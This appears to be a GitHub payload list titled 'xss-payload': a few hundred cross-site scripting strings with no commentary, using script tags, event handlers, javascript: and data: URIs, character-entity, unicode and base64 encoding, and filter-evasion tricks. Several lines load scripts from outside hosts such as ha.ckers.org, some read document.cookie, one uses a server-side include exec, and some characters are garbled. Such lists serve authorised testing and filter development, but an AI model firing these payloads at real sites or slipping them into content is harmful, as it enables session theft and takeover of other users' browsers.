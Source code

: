 # xss-payload
<script>alert(123);</script>
<ScRipT>alert("XSS");</ScRipT>
<script>alert(123)</script>
<script>alert("hellox worldss");</script>
<script>alert('XSS')</script> 
<script>alert('XSS');</script>
<script>alert('XSS')</script>
'><script>alert('XSS')</script>
<script>alert(/XSS/)</script>
<script>alert(/XSS/)</script>
</script><script>alert(1)</script>
'; alert(1);
')alert(1);//
<ScRiPt>alert(1)</sCriPt>
<IMG SRC=jAVasCrIPt:alert('XSS')>
<IMG SRC='javascript:alert('XSS');'>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<IMG SRC=javascript:alert('XSS')>      
<img src=xss onerror=alert(1)>


<iframe %00 src="&Tab;javascript:prompt(1)&Tab;"%00>

<svg><style>{font-family&colon;'<iframe/onload=confirm(1)>'

<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"

<sVg><scRipt %00>alert&lpar;1&rpar; {Opera}

<img/src=`%00` onerror=this.onerror=confirm(1)

<form><isindex formaction="javascript&colon;confirm(1)"

<img src=`%00`&NewLine; onerror=alert(1)&NewLine;

<script/&Tab; src='https://dl.dropbox.com/u/13018058/js.js' /&Tab;></script>

<ScRipT 5-0*3+9/3=>prompt(1)</ScRipT giveanswerhere=?

<iframe/src="data:text/html;&Tab;base64&Tab;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">

<script /*%00*/>/*%00*/alert(1)/*%00*/</script /*%00*/

&#34;&#62;<h1/onmouseover='\u0061lert(1)'>%00

<iframe/src="data:text/html,<svg &#111;&#110;load=alert(1)>">

<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>

<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script

<svg><script x:href='https://dl.dropbox.com/u/13018058/js.js' {Opera}

<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">
<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>

<form><a href="javascript:\u0061lert&#x28;1&#x29;">X

</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(1)>
<form><iframe &#09;&#10;&#11; src="javascript&#58;alert(1)"&#11;&#10;&#09;;>

<a href="data:application/x-x509-user-cert;&NewLine;base64&NewLine;,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="&#09;&#10;&#11;>X</a

http://www.google<script .com>alert(document.location)</script

<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a

<img/src=@&#32;&#13; onerror = prompt('&#49;')

<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;

<script ^__^>alert(String.fromCharCode(49))</script ^__^

</style &#32;><script &#32; :-(>/**/alert(document.location)/**/</script &#32; :-(

&#00;</form><input type&#61;"date" onfocus="alert(1)">

<form><textarea &#13; onkeyup='\u0061\u006C\u0065\u0072\u0074&#x28;1&#x29;'>

<script /***/>/***/confirm('\uFF41\uFF4C\uFF45\uFF52\uFF54\u1455\uFF11\u1450')/***/</script /***/

<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>

<a href="javascript:void(0)" onmouseover=&NewLine;javascript:alert(1)&NewLine;>X</a>

<script ~~~>alert(0%0)</script ~~~>

<style/onload=&lt;!--&#09;&gt;&#10;alert&#10;&lpar;1&rpar;>

<///style///><span %2F onmousemove='alert&lpar;1&rpar;'>SPAN

<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(1)

&#34;&#62;<svg><style>{-o-link-source&colon;'<body/onload=confirm(1)>'

&#13;<blink/&#13; onmouseover=pr&#x6F;mp&#116;(1)>OnMouseOver {Firefox & Opera}

<marquee onstart='javascript:alert&#x28;1&#x29;'>^__^

<div/style="width:expression(confirm(1))">X</div> {IE7}

<iframe/%00/ src=javaSCRIPT&colon;alert(1)

//<form/action=javascript&#x3A;alert&lpar;document&period;cookie&rpar;><input/type='submit'>//

/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(1) /*iframe/src*/>

//|\\ <script //|\\ src='https://dl.dropbox.com/u/13018058/js.js'> //|\\ </script //|\\

</font>/<svg><style>{src&#x3A;'<style/onload=this.onload=confirm(1)>'</font>/</style>

<a/href="javascript:&#13; javascript:prompt(1)"><input type="X">

</plaintext\></|\><plaintext/onmouseover=prompt(1)

</svg>''<svg><script 'AQuickBrownFoxJumpsOverTheLazyDog'>alert&#x28;1&#x29; {Opera}

<a href="javascript&colon;\u0061&#x6C;&#101%72t&lpar;1&rpar;"><button>

<div onmouseover='alert&lpar;1&rpar;'>DIV</div>

<iframe style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">

<a href="jAvAsCrIpT&colon;alert&lpar;1&rpar;">X</a>

<embed src="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">

<object data="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">

<var onmouseover="prompt(1)">On Mouse Over</var>

<a href=javascript&colon;alert&lpar;document&period;cookie&rpar;>Click Here</a>

<img src="/" =_=" title="onerror='prompt(1)'">

<%<!--'%><script>alert(1);</script -->

<script src="data:text/javascript,alert(1)"></script>
<iframe/src \/\/onload = prompt(1)

<iframe/onreadystatechange=alert(1)

<svg/onload=alert(1)

<input value=<><iframe/src=javascript:confirm(1)

<input type="text" value=`` <div/onmouseover='alert(1)'>X</div>

http://www.<script>alert(1)</script .com

<iframe src=j&NewLine;&Tab;a&NewLine;&Tab;&Tab;v&NewLine;&Tab;&Tab;&Tab;a&NewLine;&Tab;&Tab;&Tab;&Tab;s&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;c&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;i&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;p&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&colon;a&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;l&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;e&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;28&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;1&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;%29></iframe>

<svg><script ?>alert(1)

<iframe src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;%28&Tab;1&Tab;%29></iframe>

<img src=`xx:xx`onerror=alert(1)>

<meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>
<math><a xlink:href="//jsfiddle.net/t846h/">click

<embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>
<svg contentScriptType=text/vbs><script>MsgBox+1

<a href="data:text/html;base64_,<svg/onload=\u0061&#x6C;&#101%72t(1)>">X</a

<iframe/onreadystatechange=\u0061\u006C\u0065\u0072\u0074('\u0061') worksinIE>

<script>~'\u0061' ; \u0074\u0068\u0072\u006F\u0077 ~ \u0074\u0068\u0069\u0073. \u0061\u006C\u0065\u0072\u0074(~'\u0061')</script U+

<script/src="data&colon;text%2Fj\u0061v\u0061script,\u0061lert('\u0061')"></script a=\u0061 & /=%2F
<script/src=data&colon;text/j\u0061v\u0061&#115&#99&#114&#105&#112&#116,\u0061%6C%65%72%74(/XSS/)></script

<object data=javascript&colon;\u0061&#x6C;&#101%72t(1)>

<script>+-+-1-+-+alert(1)</script>

<body/onload=&lt;!--&gt;&#10alert(1)>

<script itworksinallbrowsers>/*<script* */alert(1)</script

<img src ?itworksonchrome?\/onerror = alert(1)

<svg><script>//&NewLine;confirm(1);</script </svg>
<svg><script onlypossibleinopera:-)> alert(1)

<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe

<script x> alert(1) </script 1=2

<div/onmouseover='alert(1)'> style="x:">

<--`<img/src=` onerror=alert(1)> --!>
 <script/src=&#100&#97&#116&#97:text/&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x000070&#x074,&#x0061;&#x06c;&#x0065;&#x00000072;&#x00074;(1)></script>

<div style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)" onclick="alert(1)">x</button>

"><img src=x onerror=window.open('https://www.google.com/');>

<form><button formaction=javascript&colon;alert(1)>CLICKME

<math><a xlink:href="//jsfiddle.net/t846h/">click

<object data=data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+></object>

<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>

<a href="data:text/html;blabla,&#60&#115&#99&#114&#105&#112&#116&#32&#115&#114&#99&#61&#34&#104&#116&#116&#112&#58&#47&#47&#115&#116&#101&#114&#110&#101&#102&#97&#109&#105&#108&#121&#46&#110&#101&#116&#47&#102&#111&#111&#46&#106&#115&#34&#62&#60&#47&#115&#99&#114&#105&#112&#116&#62&#8203">Click Me</a>

<SCRIPT>String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41)</SCRIPT>
�;alert(String.fromCharCode(88,83,83))//�;alert(String.fromCharCode(88,83,83))//�;alert(String.fromCharCode(88,83,83))//�;alert(String.fromCharCode(88,83,83))//�></SCRIPT>�>�><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
<IMG ���><SCRIPT>alert(�XSS�)</SCRIPT>�>
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=�jav ascript:alert(�XSS�);�>
<IMG SRC=�jav&#x09;ascript:alert(�XSS�);�>
<<SCRIPT>alert(�XSS�);//<</SCRIPT>
%253cscript%253ealert(1)%253c/script%253e
�><s�%2b�cript>alert(document.cookie)</script>
foo<script>alert(1)</script>
<scr<script>ipt>alert(1)</scr</script>ipt>
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
<BODY BACKGROUND=�javascript:alert(�XSS�)�>
<BODY ONLOAD=alert(�XSS�)>
<INPUT TYPE=�IMAGE� SRC=�javascript:alert(�XSS�);�>
<IMG SRC=�javascript:alert(�XSS�)�
<iframe src=http://ha.ckers.org/scriptlet.html <
javascript:alert("hellox worldss")
<img src="javascript:alert('XSS');">
<img src=javascript:alert(&quot;XSS&quot;)>
<"';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
<SCRIPT a=">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT "a='>'" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<<SCRIPT>alert("XSS");//<</SCRIPT>
<"';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))<?/SCRIPT>&submit.x=27&submit.y=9&cmd=search
<script>alert("hellox worldss")</script>&safe=high&cx=006665157904466893121:su_tzknyxug&cof=FORID:9#510
<script>alert("XSS");</script>&search=1
0&q=';alert(String.fromCharCode(88,83,83))//\';alert%2?8String.fromCharCode(88,83,83))//";alert(String.fromCharCode?(88,83,83))//\";alert(String.fromCharCode(88,83,83)%?29//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83%?2C83))</SCRIPT>&submit-frmGoogleWeb=Web+Search
<h1><font color=blue>hellox worldss</h1>
<BODY ONLOAD=alert('hellox worldss')>
<input onfocus=write(XSS) autofocus>
<input onblur=write(XSS) autofocus><input autofocus>
<body onscroll=alert(XSS)><br><br><br><br><br><br>...<br><br><br><br><input autofocus>
<form><button formaction="javascript:alert(XSS)">lol
<!--<img src="--><img src=x onerror=alert(XSS)//">
<![><img src="]><img src=x onerror=alert(XSS)//">
<style><img src="</style><img src=x onerror=alert(XSS)//">
<? foo="><script>alert(1)</script>">
<! foo="><script>alert(1)</script>">
</ foo="><script>alert(1)</script>">
<? foo="><x foo='?><script>alert(1)</script>'>">
<! foo="[[[Inception]]"><x foo="]foo><script>alert(1)</script>">
<% foo><x foo="%><script>alert(123)</script>">
<div style="font-family:'foo&#10;;color:red;';">LOL
LOL<style>*{/*all*/color/*all*/:/*all*/red/*all*/;/[0]*IE,Safari*[0]/color:green;color:bl/*IE*/ue;}</style>
<script>({0:#0=alert/#0#/#0#(0)})</script>
<svg xmlns="http://www.w3.org/2000/svg">LOL<script>alert(123)</script></svg>
&lt;SCRIPT&gt;alert(/XSS/&#46;source)&lt;/SCRIPT&gt;
\\";alert('XSS');//
&lt;/TITLE&gt;&lt;SCRIPT&gt;alert(\"XSS\");&lt;/SCRIPT&gt;
&lt;INPUT TYPE=\"IMAGE\" SRC=\"javascript&#058;alert('XSS');\"&gt;
&lt;BODY BACKGROUND=\"javascript&#058;alert('XSS')\"&gt;
&lt;BODY ONLOAD=alert('XSS')&gt;
&lt;IMG DYNSRC=\"javascript&#058;alert('XSS')\"&gt;
&lt;IMG LOWSRC=\"javascript&#058;alert('XSS')\"&gt;
&lt;BGSOUND SRC=\"javascript&#058;alert('XSS');\"&gt;
&lt;BR SIZE=\"&{alert('XSS')}\"&gt;
&lt;LAYER SRC=\"http&#58;//ha&#46;ckers&#46;org/scriptlet&#46;html\"&gt;&lt;/LAYER&gt;
&lt;LINK REL=\"stylesheet\" HREF=\"javascript&#058;alert('XSS');\"&gt;
&lt;LINK REL=\"stylesheet\" HREF=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;css\"&gt;
&lt;STYLE&gt;@import'http&#58;//ha&#46;ckers&#46;org/xss&#46;css';&lt;/STYLE&gt;
&lt;META HTTP-EQUIV=\"Link\" Content=\"&lt;http&#58;//ha&#46;ckers&#46;org/xss&#46;css&gt;; REL=stylesheet\"&gt;
&lt;STYLE&gt;BODY{-moz-binding&#58;url(\"http&#58;//ha&#46;ckers&#46;org/xssmoz&#46;xml#xss\")}&lt;/STYLE&gt;
&lt;XSS STYLE=\"behavior&#58; url(xss&#46;htc);\"&gt;
&lt;STYLE&gt;li {list-style-image&#58; url(\"javascript&#058;alert('XSS')\");}&lt;/STYLE&gt;&lt;UL&gt;&lt;LI&gt;XSS
&lt;IMG SRC='vbscript&#058;msgbox(\"XSS\")'&gt;
&lt;IMG SRC=\"mocha&#58;&#91;code&#93;\"&gt;
&lt;IMG SRC=\"livescript&#058;&#91;code&#93;\"&gt;
�scriptualert(EXSSE)�/scriptu
&lt;META HTTP-EQUIV=\"refresh\" CONTENT=\"0;url=javascript&#058;alert('XSS');\"&gt;
&lt;META HTTP-EQUIV=\"refresh\" CONTENT=\"0;url=data&#58;text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K\"&gt;
&lt;META HTTP-EQUIV=\"refresh\" CONTENT=\"0; URL=http&#58;//;URL=javascript&#058;alert('XSS');\"
&lt;IFRAME SRC=\"javascript&#058;alert('XSS');\"&gt;&lt;/IFRAME&gt;
&lt;FRAMESET&gt;&lt;FRAME SRC=\"javascript&#058;alert('XSS');\"&gt;&lt;/FRAMESET&gt;
&lt;TABLE BACKGROUND=\"javascript&#058;alert('XSS')\"&gt;
&lt;TABLE&gt;&lt;TD BACKGROUND=\"javascript&#058;alert('XSS')\"&gt;
&lt;DIV STYLE=\"background-image&#58; url(javascript&#058;alert('XSS'))\"&gt;
&lt;DIV STYLE=\"background-image&#58;\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028&#46;1027\0058&#46;1053\0053\0027\0029'\0029\"&gt;
&lt;DIV STYLE=\"background-image&#58; url(javascript&#058;alert('XSS'))\"&gt;
&lt;DIV STYLE=\"width&#58; expression(alert('XSS'));\"&gt;
&lt;STYLE&gt;@im\port'\ja\vasc\ript&#58;alert(\"XSS\")';&lt;/STYLE&gt;
&lt;IMG STYLE=\"xss&#58;expr/*XSS*/ession(alert('XSS'))\"&gt;
&lt;XSS STYLE=\"xss&#58;expression(alert('XSS'))\"&gt;
exp/*&lt;A STYLE='no\xss&#58;noxss(\"*//*\");
xss&#58;ex&#x2F;*XSS*//*/*/pression(alert(\"XSS\"))'&gt;
&lt;STYLE TYPE=\"text/javascript\"&gt;alert('XSS');&lt;/STYLE&gt;
&lt;STYLE&gt;&#46;XSS{background-image&#58;url(\"javascript&#058;alert('XSS')\");}&lt;/STYLE&gt;&lt;A CLASS=XSS&gt;&lt;/A&gt;
&lt;STYLE type=\"text/css\"&gt;BODY{background&#58;url(\"javascript&#058;alert('XSS')\")}&lt;/STYLE&gt;
&lt;!--&#91;if gte IE 4&#93;&gt;
&lt;SCRIPT&gt;alert('XSS');&lt;/SCRIPT&gt;
&lt;!&#91;endif&#93;--&gt;
&lt;BASE HREF=\"javascript&#058;alert('XSS');//\"&gt;
&lt;OBJECT TYPE=\"text/x-scriptlet\" DATA=\"http&#58;//ha&#46;ckers&#46;org/scriptlet&#46;html\"&gt;&lt;/OBJECT&gt;
&lt;OBJECT classid=clsid&#58;ae24fdae-03c6-11d1-8b76-0080c744f389&gt;&lt;param name=url value=javascript&#058;alert('XSS')&gt;&lt;/OBJECT&gt;
&lt;EMBED SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;swf\" AllowScriptAccess=\"always\"&gt;&lt;/EMBED&gt;
&lt;EMBED SRC=\"data&#58;image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==\" type=\"image/svg+xml\" AllowScriptAccess=\"always\"&gt;&lt;/EMBED&gt;
a=\"get\";
b=\"URL(\\"\";
c=\"javascript&#058;\";
d=\"alert('XSS');\\")\";
eval(a+b+c+d);
&lt;HTML xmlns&#58;xss&gt;&lt;?import namespace=\"xss\" implementation=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;htc\"&gt;&lt;xss&#58;xss&gt;XSS&lt;/xss&#58;xss&gt;&lt;/HTML&gt;
&lt;XML ID=I&gt;&lt;X&gt;&lt;C&gt;&lt;!&#91;CDATA&#91;&lt;IMG SRC=\"javas&#93;&#93;&gt;&lt;!&#91;CDATA&#91;cript&#58;alert('XSS');\"&gt;&#93;&#93;&gt;
&lt;/C&gt;&lt;/X&gt;&lt;/xml&gt;&lt;SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML&gt;&lt;/SPAN&gt;
&lt;XML ID=\"xss\"&gt;&lt;I&gt;&lt;B&gt;&lt;IMG SRC=\"javas&lt;!-- --&gt;cript&#58;alert('XSS')\"&gt;&lt;/B&gt;&lt;/I&gt;&lt;/XML&gt;
&lt;SPAN DATASRC=\"#xss\" DATAFLD=\"B\" DATAFORMATAS=\"HTML\"&gt;&lt;/SPAN&gt;
&lt;XML SRC=\"xsstest&#46;xml\" ID=I&gt;&lt;/XML&gt;
&lt;SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML&gt;&lt;/SPAN&gt;
&lt;HTML&gt;&lt;BODY&gt;
&lt;?xml&#58;namespace prefix=\"t\" ns=\"urn&#58;schemas-microsoft-com&#58;time\"&gt;
&lt;?import namespace=\"t\" implementation=\"#default#time2\"&gt;
&lt;t&#58;set attributeName=\"innerHTML\" to=\"XSS&lt;SCRIPT DEFER&gt;alert(&quot;XSS&quot;)&lt;/SCRIPT&gt;\"&gt;
&lt;/BODY&gt;&lt;/HTML&gt;
&lt;SCRIPT SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;jpg\"&gt;&lt;/SCRIPT&gt;
&lt;!--#exec cmd=\"/bin/echo '&lt;SCR'\"--&gt;&lt;!--#exec cmd=\"/bin/echo 'IPT SRC=http&#58;//ha&#46;ckers&#46;org/xss&#46;js&gt;&lt;/SCRIPT&gt;'\"--&gt;
&lt;? echo('&lt;SCR)';
echo('IPT&gt;alert(\"XSS\")&lt;/SCRIPT&gt;'); ?&gt;
&lt;IMG SRC=\"http&#58;//www&#46;thesiteyouareon&#46;com/somecommand&#46;php?somevariables=maliciouscode\"&gt;
Redirect 302 /a&#46;jpg http&#58;//victimsite&#46;com/admin&#46;asp&deleteuser
&lt;META HTTP-EQUIV=\"Set-Cookie\" Content=\"USERID=&lt;SCRIPT&gt;alert('XSS')&lt;/SCRIPT&gt;\"&gt;
&lt;HEAD&gt;&lt;META HTTP-EQUIV=\"CONTENT-TYPE\" CONTENT=\"text/html; charset=UTF-7\"&gt; &lt;/HEAD&gt;+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-
&lt;SCRIPT a=\"&gt;\" SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
&lt;SCRIPT =\"&gt;\" SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
&lt;SCRIPT a=\"&gt;\" '' SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
&lt;SCRIPT \"a='&gt;'\" SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
&lt;SCRIPT a=`&gt;` SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
&lt;SCRIPT a=\"&gt;'&gt;\" SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
&lt;SCRIPT&gt;document&#46;write(\"&lt;SCRI\");&lt;/SCRIPT&gt;PT SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
&lt;A HREF=\"http&#58;//66&#46;102&#46;7&#46;147/\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"http&#58;//%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"http&#58;//1113982867/\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"http&#58;//0x42&#46;0x0000066&#46;0x7&#46;0x93/\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"http&#58;//0102&#46;0146&#46;0007&#46;00000223/\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"htt p&#58;//6 6&#46;000146&#46;0x7&#46;147/\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"//www&#46;google&#46;com/\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"//google\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"http&#58;//ha&#46;ckers&#46;org@google\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"http&#58;//google&#58;ha&#46;ckers&#46;org\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"http&#58;//google&#46;com/\"&gt;XSS&lt;/A&gt;
&lt;A HREF=\"http&#58;//www&#46;google&#46;com&#46;/\"&gt;XSS&lt;/A&gt;
